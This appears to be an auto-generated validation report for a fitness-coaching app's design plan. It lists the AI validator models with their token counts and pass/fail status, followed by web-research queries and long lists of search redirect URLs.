


# SwanStudios Validation Report

> Generated: 7/8/2026, 12:48:04 AM
> Files reviewed: 1
> Validators: 17 succeeded, 2 errored
> Cost: $1.8106
> Duration: 890.0s
> Gateway: OpenRouter (single API key)

---

## Files Reviewed

- `docs/ai-workflow/brainstorms/inception-morph-engine-plan-2026-07-08.md`

---

## Validator Summary

| # | Validator | Model | Tokens (in/out) | Duration | Status |
|---|-----------|-------|-----------------|----------|--------|
| 1 | UX Research & Competitor Analysis | google/gemini-2.5-flash | 2,801 / 6,256 | 47.8s | PASS |
| 2 | Architecture & Component Design | anthropic/claude-4.6-sonnet-20260217 | 2,868 / 4,096 | 83.3s | PASS |
| 3 | Security & Privacy Planning | nvidia/nemotron-3-nano-30b-a3b:free | 2,784 / 3,867 | 22.9s | PASS |
| 4 | Performance & Bundle Impact | google/gemini-3-flash-preview-20251217 | 2,753 / 1,457 | 11.4s | PASS |
| 5 | Competitive Intelligence | gemini-3-flash-preview-20251217 | 0 / 0 | 0.3s | FAIL |
| 6 | User Persona Alignment | nvidia/nemotron-3-nano-30b-a3b:free | 2,773 / 2,708 | 19.4s | PASS |
| 7 | Implementation Risk Assessment | nvidia/nemotron-3-nano-30b-a3b:free | 2,735 / 4,096 | 18.1s | PASS |
| 8 | Frontend Patterns & React Best Practices | google/gemini-3.1-flash-lite-preview-20260303 | 2,732 / 1,259 | 6.4s | PASS |
| 9 | Data Safety & Schema Impact | anthropic/claude-4.6-sonnet-20260217 | 2,980 / 4,096 | 80.8s | PASS |
| 10 | API Design & Backend Contracts | nvidia/nemotron-3-super-120b-a12b-20230311:free | 2,724 / 4,096 | 30.9s | PASS |
| 11 | Module Architecture & File Budget | nvidia/nemotron-3-super-120b-a12b-20230311:free | 2,709 / 4,096 | 43.1s | PASS |
| 12 | Mobile & Edge Case Analysis | nvidia/nemotron-3-nano-30b-a3b:free | 2,860 / 4,096 | 23.6s | PASS |
| 13 | Strategic Research & Gap Analysis | google/gemini-3.1-pro-preview | 4,824 / 2,591 | 116.0s | PASS |
| 14 | Full-Stack Integration Analysis (Trinity) | arcee-ai/trinity-large-preview:free | 0 / 0 | 2.5s | FAIL |
| 15 | Fusion Synthesis (Judge) | anthropic/claude-5-fable-20260609 | 60,791 / 16,159 | 193.1s | PASS |
| 16 | Security Planning Debate (Phase 2A) | nvidia/nemotron-3-nano-30b-a3b:free ↔ nvidia/nemotron-3-super-120b-a12b:free | 13,367 / 6,997 | 49.1s | PASS |
| 17 | Architecture Planning Debate (Phase 2B) | anthropic/claude-sonnet-4.6 ↔ nvidia/nemotron-3-super-120b-a12b:free | 13,634 / 7,087 | 156.7s | PASS |
| 18 | UX/UI Design Planning Debate (Phase 2C) | z-ai/glm-5.2 ↔ gemini-3.1-pro-preview | 24,709 / 10,828 | 245.2s | PASS |
| 19 | Smart Escalation (Nemotron Super) | nvidia/nemotron-3-super-120b-a12b:free | 2,895 / 3,642 | 105.8s | PASS |

---

## Web Research Sources

> 2 brain(s) performed real-time web research via Google Search Grounding

### UX Research & Competitor Analysis
**Search queries:** Trainerize features, TrueCoach features, My PT Hub features, Hevy app features, Strong app features, JEFIT app features, Strava app features, Caliber app features, Future.fit app features, Trainiac app features, fitness coaching app UI UX, dynamic UI patterns in fitness apps, AI driven UI UX trends 2026, generative UI UX examples, Framer Motion View Transitions API performance, mobile UI UX patterns for intent driven interfaces, best onboarding flows Duolingo Notion Linear, accessibility guidelines for dynamic content, WCAG guidelines for animations and transitions, color contrast checker for dark themes, mobile-first design principles for complex applications, UX patterns for persistent navigation elements, user journey for personal trainers using mobile apps at gym
**Sources cited:**
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQE9Ze8WDXLSh6_w5iTWfvWkFg6xLabwJ7U_zO9Tw030miRnmIyH8mjupoKAqZYFbnvzvtV6c4t1UPsPdXc9DAbBl7xuI5sgw8rP2hCWfPAQe8fXS0Cs8wIhsR3l
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEZCouVS05QQ3kyklh0-Bm5tMNYtgCdA6JusCmdZuQ9IOZ1jrPyVPcj5NQHUhwV4v-aAmiuojtLEzkIIxmnmrZfPFXB_58zENsHms-72F9QVY4=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFQ8iXIbjZJ_uv5zDNbU35_c4YxYheZm6vOUMHChOufYB6bPVb3tjZi9P32y765BitkZBp4l0tyVeik5fQKcjx0OBpHSO-4ctOfPAwzKJALK_Byy6qouJAu9AW9qjYnCEpmQlWJvh_bkpQzhx-vqC66ptl4MClp4RBlFH3ggo-8MrFsVSam5ayAgbh1R_11j8vSEJLMl9Z-jXMZcg-PBZO64APEg3LI0xufGigHMffn9jSPjj1EY_bP
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFFFvtb3k8GCx_Whyffg6rOgJCih6brEndDPw0s-P9OEKCm3ywUoXdPD-KRCv0bc_p4Q62UPpoyPcLZO5v0qADTCyQ7ahQZ6BC4g8eP_Inp9X9uJhUjL9pRUe-gviN6BuT3gABI3QNT0arNXS3n5AmtHtdmGg==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHX57qH2GhSoXgwMfgPFxqaCEv7UNOCg_USliw4CwEU0FHQwkBVunae0_ZEgH7LR7fMGUJaUt-xbho2wRB43fbWjsdQhrz8x1OkZ9atfCGFFEqDmtYDyiu_fjMU
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHCGvLSQ_sWrZt07z9VRsPW5CcemGcsUGUg_XCTpbxwMD6l1t9X-kWVNGsxFVWpzd3DeBJ17s5J7EISlhYfw_s5UcwebtlJE8dCoCHeenzyJ4MBPDtJx_aWq6CKFd0MMoUK-24JrRs=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGMLW0oxWHgIiznjL-Tp7ajh78saGY488IOSs5MxztNp4_iROrRe4coPDXwvTuvC3mcCVTESqk1LgDNLnIKHLcn-r1Q6fjR7hmL6I-hgKE4dnfIR9AFaOM1LSZzIWlU6lHlpEHBb4CS-JhSn6_Rpj5dM1Ii9TuJhznH-XkBNFecjrbX
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQH2-0kZ2yaKahnboN8pjKoAwyZd5NOYRvFt8LtC0ga_y0Hqc-z5WdTsCOdO5MNCgJme-oWf6BKqtahEo5M-9YXAUEEK_IpJPr0najwnilbEgvwvCZetTZgSIZiVsezO1FEyWWyCjD_bWBJV3Djqu32JomUWN2kJ
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF7Qoskx3Jix4lPJ6hpeS448jTX_sCZdGdT9VnmnEYU7LkTEFRe8vlAdkYr4UuJid9xp43g4HBOYXJTkdKG1P98ZsNYBEoQKtFd7QslEi3QbviY7KzpRbW7rqszqNsjdBISJ2SeVNuVMZIMOBwDzciOfLDlZmoWYk9c98lSjQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEXHfLIozUTyfp8HE6wc6pz-m8vyzJ6ZvXSzTe0Y6_Tf8nYojG2xIhUpEfdpNPJ0MKywuY3RrsTSJNmY7jermlvToGXsDC_tCeF4BjLpX6x-B5wWvREg_oV2ZHoVSGjF5zeHEL2uq1lDSaqE2Lr2vkp19QLgnEk_sk7rwYt5XDt05g=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGVH73J3ggieGn62jfFd3J6BXhnOR6OTNzt9IWi_uOVtQCcYoZoRWL7Nf2-CdORzUEK_5C3o_tl2QUKyo03jHB90MbxMx-jMb4IBuWff-JCvlKx
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGTYh-lY1yEOFME_Zbp0UG9blkSXHCmBitKmLb9hjOnP9emxNjVIZSZh5bHzzgGVJPiX3GYvp6nJAh70Tx7iiQzih1bu7IA7ftA39dpFD8u74yQl5BtkgdU
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGgz6RcXbuSWYUtvWLeGGpBK7PNGbvXZMfpK9CPkPHhgzo0Z5Qxyw0c9GvbVZqr3Md2E9Et5O4lI3DU9gtg6wcLQZaomcdKyz6TkxxX3ursPO5ed02JKemmF9hxirKgCW8clTIX9a7pvyAb_kxfTQ1ShRkd
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQH4sQY8ZbS3ZRXINUhy40BJaT4B34Q-Ak3aVoJYA_UAnSz__NscR5s1IPhsx_eRvXcOAV7e75R0QE44rxMbDV2TimJsK39ZQzpUyaRKOVyKSizSp18uCV9aHm3yargruxcXR37Jf_VZiPW0hLdwNKIbQ_nUGAts7JMMNjNI8bY=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFMxctxcm35veT45GZnyo59btbSqSlVcvHAX4bAchaeV5akgVf26b5LELOANxy4u_e49b4u0e7x-7_TcoBvkjJaYP9O49LmnT9dUzX72EtBBi_QPM9X7UOVS-5xpGo60zhuB_lgkI2auFHHeWj-wqra3drCArid0wTuYBSKHqXyh0o=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHDtO5qbKTK1R_xgBkZ9H8GFljVpmBgIBy_6D9457bAiwwp6-098HKMThF8FUxtfpViSb-ghki4IzRfyrvun4EsuuQwHxgJ2jAqgYH9Bqd99M3eqt8K1JW5nORklvlsobC39d_swlV-ckKBTrSGGiNSAbTMw3go4_J3wrIeyapOO8ODEBPS2-g=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFrkC25han7m6z3M_A7TMYYCHjtCTroF5uFOcZS1J8MHeYXupMTyv5tHLyFyQbLYVJXfHoF2xVckXwzoBcekPZgvbetSVflo9yc3NIm5Y9R
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGRIj27MFOLOUg3SJLPIbDPSIWUB2IvGlJpOxVBBTgJl_C3DK7aqu-IRasWZ9t-cx_k_uVVmZSigW_c8xEMwFZy9NPBRx6jyWcC4LNh2TqBKtBi4V05jCVJOCA=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQG2nvL4tt2ocioEiZpshwi21Y83qmrBIJzBQXV2nGXdzDznO7EnbqLtujX-QZ7o4PzdZxpHYpaG_ZkqXKSWbd-o8liYEo2igmZEjIn4XGIwNkWZIhppV45T8UM0WQlaI4hoUdJ-ioaGqU03wxS0V5-rMQXBJHpCnAeK1e4BXdBhVpgD7c83
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEZEjadKooxYcLQbxi5HplkybYtev31JjMr1zBuCYAXNK5v9HMRyAdgu7Orq5BbPfvnrsl-3gk4LQjc11hQgmQ88iNaNhO5EomBT5yvOf0LcBwtXCzHixiDDbdWlkpdBYQ=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGJNa4g9LmDE8CrUAZawivVhB6FG7xvycSNu1VnnTvj0ikRNOCK3zXvXiIyLop-4KBOCka3lPzJ66WouC_vc6-NIBM_6VdN3n9zbeasnbJ3ZOPRIQ75tAay2hsgmoY29mlWszJEV7nOzlatGW4=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEc8vhDywhu0HGcJbyW7A9nXPzC8OTW-nO7h_EMnW4_re3FblijUfioLUZboajRCioeI16UEfpkJ8LV4joPEeX1uhJZgtv1-V5CmsHVCiyZHXSN9hOPjU1lxbR0ozFNqhibcpB0ajrgo1sYoAIB
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGhZXtkN7r-vFe0xDsgGbpMMS6fTdS8q9HkWufz-3dVsVA_oNOvnUCW1IqiLVYZ4VyCgI7gv3cX4OJH3QrwUL-FbtJQsi7uM44hyZZCrm090daEPwZGBgsrFtx48mK0KAGfXtKmSED8yuGauQLaWthYvMRqgRvRy4i3zQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHO7qvFKxKSJQryvkS9tx2T8Btr4yoZJELH_4JDGHCowpgIqB3-SXPPeVeevUyDid9aI8FJBeWiNpOS2Tx1SVG5LzKYMZq4mLI5pTQ04EJfwU7QC48nB7mgkQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQE6ntIK-5Ilh4qjPF824Og3Hwf82ce-LNGUmNXJwDhNtVaXugzxGv5fRJasAl2s0NbTnIDYQ7mYh75ZaZ1YerKzkh2hRrYPwqL41mGiOL-RIomXQagS8hvofbqv81JQ7wUe7mKs9g==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHgNetWaiMasbDUS9xgKShGYOjvj8urLoQAciVVIgonSZtkLFlTi0pKb_qe9iZ4RzG2aSY6_8dIbrEY0d-mmuEqa4mHBOn_f27N6NILLXlxoB4EIuIkP3v4-E_Mj6kI19i_UUjoXeaGdT5vm_UhoH1z4_lkMZJFcrd75Aq6zNhqVKnfW55CEQUzl1-4n4vE10onXvS6DRWpi8SetitOT_r4UycpGyO3RtPVJzIiqxDd-tulO2_jQ9WKr8bxKwOIqqu9EcyISB2R57T7GcqeQHRy3GuSVkhlE4_XbwfHdAU4_1rqGkUdtVzQGNL5HW9bqSxs31MwfP1lJXFkCb317wKlAKDYfjQZrEXK37hBAkSvzw==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEAuuUmOSiQC2MgcawP3EpSrW2RYbERidj7-KiDrxgM3Wbh0ckaVfoxdiBKSArEtbhy3pxRRklm1joJjK0vNC8toLGVLQUdxi71T9yKx4mHu2kEQSqbV3aFCCdnJePyPNZmyVXQ5rvK_ssK42PP9A==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQG4tXg_x0f5SA-Obzn-8iiK95SrgIIcHLQJr84tlWIXc1ImknStdN98X90bmHpUfQiEmVCKZ9mmwjUvCrhE_cE0mK1T8-Vucq7HZS258xVcnUojaA41xdQKAdflECo0XKj53J2bYf2dgHYIwxsNFa9xPp37WFR3HIMSSKRKEz9bEvkY-Dw=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHS65y0OF20HHeeCiK-7vNh2uB0lzeeBJ4TnO9Y_8wWoRxayVm7HgkSOXbkJ63XV5Yi9Y7oxUthvxwr7Jv0jAAeWghu_0RP06P-PmfSmlXWFIpoj37UcFa-lC-m4ce-iAeednXc51gINFZxU7uHiAY8Hu6-DsGWuOEjYdoprMd-GFSS
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHRgfi_6Xg_gjSkA0V4bh_uEU24iGKb3TFsuIOIxeoy8KQsZlWfyXFFyhbAnYrxOJkwQ5zcMtkX4nwyViEGAxOcIqcuuTpAZkYfr5cRKxzyxLD2DW1eDLRtmNI58PZ9FeYz1Gja1UD7P9OqXBzshw==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF8HMQAOd2gTdmDrPAK69uhRIfv_biYlEfBSRIOqDxlsGce5BtHZn-Gp9EgfZc4aG6HrtXtnBlw6Fb8hx1mfKfeOXk8EgPSikcgRPTLQ-RHYsQx2e1SBA3FRiuRKQY_EiFJaWAvIlOGdOKuI2f1bq0mmGYhfuJg9Zk92uT7gzmrSUtfytz6wBw=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQErNjmuOuOnfsVFouPCh5j5QW4qFWaTooBjlK80SMOdz3GifuqSp4_028Yc5GTfrvkCKn8PyiOmvQp1uKL02IRrzlPBp58rKgytbZsSmOk34Rme1S1nzoc3SBIPuPi-r1pC_EUHI3LmQvI83uwIvHnagY-raKTyq0w6rJmH0w==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGk5B4PuF5QniEkKaL3OW_UQQrq_t0tWbYtAb0qQwKfKIL67k6kJp5R46yWWIU3Y6SQYdrFv31yt8Ae5pQmaXdLsiFV9tx291mKejkh9HCC5jxgo7ad5LEnT0iUfjmLwZuq3BMxnT-vo1T-Jg==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEzsXSUr-OoVx4NIvNs1TmamDn2Y-180hRiJ_mYapmk6aCPiaonr5aXIbgF7aAMVkrPfuA88gcIg5_o5MrDFMK6e76ywPS15_MVofGgjTzW05KpP9ohjTq5lQkmBQXtV7qwy1DQxwVa3WpZWU2y7UPnSBZ3pnOGi_k_Gjnl00qh9jCW6MbDgW-WVIUbFYoJ
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQH3iskejJ7TRLvx8pxBPfTOMv1wOy1ny3rBPbutgeFLUqWz7tnPFxVaYpB6MY-1f9gjGeOplqaNyPAB2owBQfPDd_r_3jyO8xgqui0HMxEg
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQE7f5KFeCNkZVOYBzGWNwqo_n1bDTOypS-Cz0YkwsWGK9OqAtIoWCL4pdFsoGnmtIBuM-LUjAD6q6yr1ghEtQjowk2l5j09EFAsrmWM23l--vxLZaSLzUCmnG5DzLlPqkk=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFXK9F_3-S8cmpYXaF505_xA6MiwkZPjMs0L6hUsZNJdtnwueP-l6GReZdUNyLO-HpIuDEAPhY86Fn8CPOefbjln2LJPwJD6Am55anmn9fcoxCN-a4_yapqYRdmy_8SLkIhNWEJ6rUZUbD-1RVR
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFxgj8lLBlSSTnTaNc-x6lktE67gTCIZYNYm93klSVwrHfrxMheFaGOsf7rAp7VJ2kKLE2RNL25XzKFYsx8afEfBLNi9LAv7npMsVX52wPOB3DqBxV99bFex0NhjJ8EAdhOCoRS9LKvl8kn-Z_NWd60_hJra_y3JAv7CAzHmWT7JcPLZFWhTFKc-vc=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF4OrabwvGz9-eeAbpvyWyltWNKtOCgWqoMh8c74CEmT0fUGDgmV_V0PLAI-dpFR12b0wrq8s55YlzyEO7cyJKdb129kHqX9jhXDTB-OhDJe90HCW70OgP_OYrM4JPCHt3r8JAYRwlYam3Ekxlt_pE=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGd3J4isjIcGAQlJYUw47vy5TCT4q4v5XZCk_ieVEO94vwE5317Od8dPJxipB2LKk56K9jKgkqZ9ow4egQnPVa3LsHkIUhcIL_P-rOCcy_pXJewLtDyuzPW5-gK8bn87Wq_o_byVg==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFqRemuvAXboEWkm3Etq9cfkkUCZKOq9XKEVSCrCKKIVoIPXigf0xGxto67MTaJEmxjrw0R7-t32GelsDYdT3trxEkYe6_TWYugfCI1mnqGCRUtgC3CVRtoWQV6AkQKrpnT_FxjUrSgnn11EtZkwJtCH61sMQkb-FOcTHq4j8QRPLj00gz89zL-fuarIpbR9x3-gR5xfCVTHt68hL70X_QgRUc=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEqqP3vNnc89hKnpXLVMppQCpqrH332a9XV1qaU91eTrhenEgUA2w13jRawtk7L8enf4FJUOtDN4RG03SSNcbpXOA5y5D_j34k66byKE_TWT4hXngZ3HOC184_yDRy6ihqgYKJY6agQKEnG1A==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHoenLvDUEIT1RzqN55RdFxmRLLzsltDEF-UUoPHpeJBrcviP9Gy1pDyT5qg4iXUInA7h78_lQ5LSipTZHgqgYEr1xx6awESeSHFcyrgtb4Jo40K36d5qxm94vvGNcMEzFEkK3JscA=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHQjkoVey8ltFq3nY5HzoES72ij4_do6JgObNVHve_bG3A7fFetDUk2ikN-IgyzQxROr6L8Q29ZjAWiZh57nTSdyub2CNSIeYk0Yh8iqQODzfkCtb8tbRiT9RSS5tukBPOUj8jWyHPQctO1FfA=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGxXBnXjlLZZgu84hDuMOefJXWCRJF-EnAdrA_TQnCfpae7UCC2feZhSJ24YiJ49V71JcyEKOWrEVwKI9lE55Hor5bPUZwtErUkwuRf7Qo0SgE7EH7YgWHZ5PTWAvYbEr2EaIvSCQEzFCTyoWev03TBHvd1AJyh8Voq-GaxvLefnzzViQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHwFqxaC4_xjm24uBDG3AWyX_o3Ob1RpTXA10bHpDD8vxz8IaxWZ9T8heLGGouJZd8dZMwGD-zfiNyf-aS6QBIThhmZJ5wAz8sgSUpXDXdrE5vJJ4KEkKSTMfjMbe9DfSzNQwk2VPkW7geNR1kVQbgRwi4AfO9xN1LSIjABln4Jt6X3OKtwcETWlW7eCicM2wiipoi35bM=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF_-ZFdjR4gFZRv52higX3dFOHp-1Y-Sq-HQqL0k4N2ETRTrtzRfSfjYQZN46udlZ27B2ui-nE3giN0SR9RHcLeesycVXWxXyhIudOgBJi4Vbf2wPq1JvnMqIDhNPoao-Atii-A
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFUXffEqvvlfTjNCnkFrkmA6lKgjpSq_36qQO_nDe9GJwTVHBwfChodu6wgWyn62K1JuLBP1dZzinC-byYsaC_itLtcRiq9qba97qHClRGCskj9ajRp0llPcGriQBDUoywgPVOl-gRxAw==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFo6upbxJ4yjSjfVDMaxq_9aCZnRBnRNVTxwPgLEKh7HxTk170Akmtq72DA81-oFvgT50HAZeIc5XTpPumAdgbs93sTXEsvK0yn7ACZJ5Fc7TeczejhDaaisp4g_guqo_2H59cvPub28KU5AtacZXJ4QrYhKLf48DOwGBA=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHXSxcb1ehNfebUyo3dl7pyuc-K9k9SN1mfqJna06P2ShfoqFxnq_MpwmqHvCD8x0zgc3FhVJg4bhcRtl1nYOKV9aBuMSIF_gTx_T7dy6p4ic0md4mWBYMf1OHOPYCTc0slbb_5x8BIbZtcdX1LR2M=

### Strategic Research & Gap Analysis
**Search queries:** "FTC" AI claims fitness apps 2025 OR 2026, "FDA" AI fitness nutrition app guidance 2025 OR 2026, "Model Context Protocol" UI MCP-UI 2025 OR 2026, Generative UI frameworks React 2025 OR 2026, "AI coaching" fitness apps trends 2025 OR 2026, "Apple Health" export "FHIR" fitness apps 2025 OR 2026, "HIPAA" AI fitness app compliance 2025 OR 2026, "React Native" vs "Expo" vs "Capacitor" 2025 OR 2026, fitness app onboarding flows best practices 2025 OR 2026, "View Transitions API" DOM nodes limit performance 2025 OR 2026, creator economy models fitness apps 2025 OR 2026, "Voice UI" mobile fitness apps best practices 2025 OR 2026
**Sources cited:**
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQE6jOthS9k6hnrL3sHOn6wAqpjnGurjPVOymMy4rnvY5d-Ol3zNi44Yi-N7nfPLkP1f1c7_FtNH1vwooNam8SzlTKJFQv_imSW5c8_3FKj_x80RRNU9n1kIOIfqlX-i4AY7cE_oxm53PqmmbwgMLdV4SpvQz4E=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGlgP0pI2s6S0XE20aMpL8zMaSCtB86kNl6Itpj-nBVb6-joBE_BEnN0Kyx2wVZz5_nJzwKMBnbSaSV8pcteG-ekqdWu1HJBOHrm3f0naxIpWAUXWFet7VvHb_FQ5EQgX0mgkPqwDlCxhdtRNjNeQFMEEbt4gM=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQES5WfGcPMf3cOdhyewGRALVkcfUdW1GoLN7tswBqLMJEemAC_64OoPxTYoynmDiaYHx_D9ZRxQOqtbPrkoj-gZFHKAZBdIBlopSg0hxvWqHe_SSBFOdm9Zs54hHO77Tdo-4hqF2pIBscME
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEULZWBpdTmjZFfyS1MrdPojnSBK5kd83X_nMECivKFBDsDhI8BeVjd13h8u2Ob3I2reloM1D2EQswyICHW-kkAWGn5HTR2jgpe48eylsouapOoXJNXtGu1hjJyy-cCn0xWGHh30pAZpZKuMgKva5HyKJaAMjg=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEVjy5T0s3_XqF6StlqYnTY8djmYw32Apal9JbilloUuzGo4PVU_vzqNJk5IIWEdnGKpibDQf50hO3HBRAPA8gbr7MqOjt9iDAjB1fPN9TUoXojtOjjKOpBieVSQ4xlsNnlB6KzQg0A1bwHEaI7-kEmues55R35oWq8ZFcB6PHZiivbYQsBD02CLLQMFBU=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEKmgBMRpLh1r7yknmHqhjBw5JOMs2PbBO441neMIlIY8OjkUcu7qI74FH5ZbOduDJWSVzCjfLRX8-oiWV-DcTiewYqKiBrmIAi-hUyJHL00TH40XOTDLYv8nuFQcLGg1RRnboBq2kqPsc6Kyd6f_sOHxofbgP9yIEAnI7GwqeNC2w=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQH3JavC6qEXncR_3tMq34hblwilevi3SOXaDrKOtTMAnBKtlKgaboCU20F-CgcjPdqSqhrfS-NBpOyrhJzSQOIblH5aISsUOewPqKsDJ9mLz_XrHCM4sxBrmfylvprZZ_EwV4LZAyj4l4xKIkFeLfvkNek8T_ysSabmtEaGRtvTDGYZCGg2ERuJyaNEuBi1GgfhmzjxVwSyTiZBakryzu4J-aH10pamCtA9YpO_75sNBOvt12zBEmQ6zAzbDc8DzNOoyJ3OUG7JXCFIg1g=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEeqb8U4yVO6UBsBCJThI1b-KGsax0qk3amLXhhObcauqcGjRp1jRb-hHg7UxF_KO6ynNB11DG5PNsAGxHahc_vZIyEf9Cvhe_ftjYxTcyrzoy2bu480JqTnFjQUwS5YBnGfLJuRXpw1zxN3gUPEjGc1pSLJEEn_YAdw_5EhMRijelT
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFQ0yDDFQjicv1sD2vUSzIULoWAMTGvG2sf6zysbhbvHUVA3qkOlDBMlHYK4gBIayMH9ZgpFdSXhIaDQbO5J-G03AncYrIYfb2vzQXtP1GNA2xow0rt0P230Z1fixvjSa-L0N3mC3aHc16lMGo_nBd1ya7uhNNKX7s=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEnn1TMXssQ0jn4Ec9niu5heQx0giXAOnNT827A6DUrtOyVdj7-GjbN-mGZkfP47kd1T4LcZv3HZ_8UOgn9yeoiJFUjEl3Q-q9BqaXxzrZIJmTD0Qufu733x9odUJgaKxcNG69jBA==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFFo5-Dg8VLjBNREzaPC_DAjTr_P9X6RXOgCNb4bIC7cuBnjptIFCRtEN0HKXImcYz_UBPicPoffTK1KBjh68cyh1MkDmFk7zRYvUx5uuQc4yFl4Jm61wWzujfEWfR0SzuvuB1TN2-DSFBxh6e8jMdHq408VAgPYkB2Q2V84ofG
